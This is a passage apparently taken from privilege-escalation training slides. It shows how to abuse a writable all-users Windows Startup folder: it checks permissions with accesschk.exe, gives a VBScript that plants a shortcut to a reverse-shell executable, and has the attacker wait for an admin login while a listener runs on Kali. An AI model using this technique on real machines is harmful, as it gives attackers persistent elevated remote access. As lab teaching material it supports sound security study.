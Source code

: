 # Start Up Apps



Startup Apps Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in. 107 Startup Apps Note that shortcut files (.lnk) must be used. The following VBScript can be used to create a shortcut file: Set oWS = WScript.CreateObject("WScript.Shell") sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk" Set oLink = oWS.CreateShortcut(sLinkFile) oLink.TargetPath = "C:\PrivEsc\reverse.exe" oLink.Save 108 Privilege Escalation

1. Use accesschk.exe to check permissions on the StartUp directory:

> .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Star t Menu\Programs\StartUp"

1. Note that the BUILTIN\Users group has write access to this directory. 109 Privilege Escalation
2. Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.
3. Run the script using cscript:

> cscript CreateShortcut.vbs

1. Start a listener on Kali, then log in as the admin user to trigger the exploit.
